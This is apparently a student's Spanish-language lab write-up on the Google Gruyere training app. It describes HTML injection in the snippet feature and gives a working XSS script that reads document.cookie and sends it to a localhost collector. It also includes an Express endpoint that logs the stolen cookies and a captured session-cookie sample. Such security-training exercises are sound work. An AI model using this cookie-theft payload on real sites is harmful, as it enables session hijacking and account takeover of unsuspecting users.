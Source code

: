 # Google Gruyere

**NewSnippet:**
Podemos incluir **html** en el texto, no verifican que es lo que mandamos, así que se puede inyectar código.

**Inyectar script:**
Podemos inyectar un scrip gracias a subir un archivo en la página de *Upload*, e inyectarlo en *NewSnippeet* gracias a un enlace de html, asi redirigimos al usuario a dónde queremos.

Por otra parte en esta práctica hemos capturado las cookies del usuario de gruyere, con la siguiente inyección de xss:

```html
<script>
    //Se obtiene las cookies 
    const cookies = document.cookie

    //Enviar cookies al servidor
    fetch(`http://localhost:3000/grab?cookies=${encodeURIComponent(cookies)}`)
    //{encodeURIComponent(cookies)} esto evita problemas con caracteres especiales
    //La solicitud se envia a /grab como una solicitud GET
    .then(response => response.text())
    .then(data => console.log(data))
    .catch(error => console.error('Error:', error));
    
</script>
```

Apuntamos a nuestro localhost para realizar esta captura en un entorno protegido.

**Nuestro backend:**
Solo nos hace falta un endpoint con método `GET` para capturar los datos, y poder guardarlos si queremos.

```js
app.get('/grab', (req, res) => {
    //Recibir las cookies que  nos manda el usuario
    const cookies = req.query.cookies
    console.log("Cookies recibidas:", cookies);
})
```

Y en nuestra consola se vería tal que así:

```bash
Cookies recibidas: GRUYERE=45876930|usuario||author; GRUYERE_ID=530531804286574254545111292069532189297
```